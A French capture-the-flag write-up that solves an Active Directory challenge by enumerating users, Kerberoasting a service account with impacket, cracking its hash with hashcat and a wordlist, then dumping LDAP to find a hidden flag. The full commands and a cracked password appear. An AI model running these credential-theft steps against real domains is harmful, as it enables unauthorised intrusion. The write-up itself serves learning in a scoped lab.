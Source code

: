 # The AD Guardians
``Facile``

``HF47``

>Dans les profondeurs du royaume Active Directory, une ancienne prophétie parle d'un artefact caché protégé par des gardiens invisibles. Seuls ceux qui maîtrisent l'art de la négociation pourront espérer découvrir le secret enfoui dans les méandres de l'annuaire.

> Pour ce challenge, vous devez synchroniser votre horloge NTP avec celle du serveur: 1/ sudo apt install ntpdate
2/ sudo ntpdate 51.89.230.137

> Les comptes formation et Administrateur et le groupe CTF_Player ne font pas partie du périmètre du challenge. Il est strictement interdit d'essayer de les compromettre. Les comptes et/ou groupes spécifiques au challenge sont identifiés par CTF ou indiqués dans l'énoncé. En cas de doute, contactez un administrateur.


Comme d'hab, on regarde les utilisateurs.

```
└─$ nxc smb 51.89.230.137 -u 'lion240521_404Player' -p '<password>' --users
SMB         51.89.230.137   445    DC1              [*] Windows Server 2016 Standard 14393 x64 (name:DC1) (domain:ctfcorp.local) (signing:True) (SMBv1:True)
SMB         51.89.230.137   445    DC1              [+] ctfcorp.local\lion240521_404Player:<password> 
SMB         51.89.230.137   445    DC1              -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         51.89.230.137   445    DC1              Administrator                 2025-05-01 20:54:19 5838    Built-in account for administering the computer/domain 
SMB         51.89.230.137   445    DC1              Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         51.89.230.137   445    DC1              krbtgt                        2025-05-01 21:09:01 0       Key Distribution Center Service Account 
SMB         51.89.230.137   445    DC1              DefaultAccount                <never>             0       A user account managed by the system. 
SMB         51.89.230.137   445    DC1              formation                     2025-05-02 04:49:25 0        
SMB         51.89.230.137   445    DC1              hf47                          2025-05-02 14:44:05 0        
SMB         51.89.230.137   445    DC1              sql_service                   2025-05-05 16:33:18 0       SQL Server Service Account 

```

Je tente du kerberoasting en me synchronisant avec le domaine. GetUserSPNs.py dans impacket permet de faire ça facilement.

```
sudo ntpdate 51.89.230.137 && GetUserSPNs.py -request -dc-ip 51.89.230.137 ctfcorp.local/'lion240521_404Player':'<password>'
```
J'obtiens aussi le hash de sql_service. Il s'agit d'un hash kerberos, commençant par
``$krb5tgs$23$``

 Il suffit ensuite d'utiliser un outil comme hashcat pour trouver le mot de passe.

```hashcat -m 13100 sqlhash.txt /usr/share/wordlists/rockyou.txt```

On obtient aussi les hashs d'Administrateur et krbtgt, mais ce sont des mots de passes longs et complexes. Pas la peine de s'y attarder.

Le mdp est ``fantastic``

Il était aussi possible d'importer les données dans [Bloodhound](https://www.thehacker.recipes/ad/recon/bloodhound/) et de regarder les utilisateurs kerberoastables.

On ne peut pas utiliser de service sql. En revanche, l'énoncé parle d'annuaire => LDAP.

J'utilise alors ldapdomaindump avec le compte sql_service pour récupérer les données.

```
ldapdomaindump 51.89.230.137 -u 'ctfcorp.local\sql_service' -p "fantastic" -o output
```

Dans certains fichiers .html comme domain_users.html, on voit un utilisateur qui n'était pas listé dans ``--users``, ainsi que le flag à côté.
```
hidden_flag	hidden_flag	hidden_flag
404CTF{K3rb3r04st1ng_1s_Th3_W4y}
```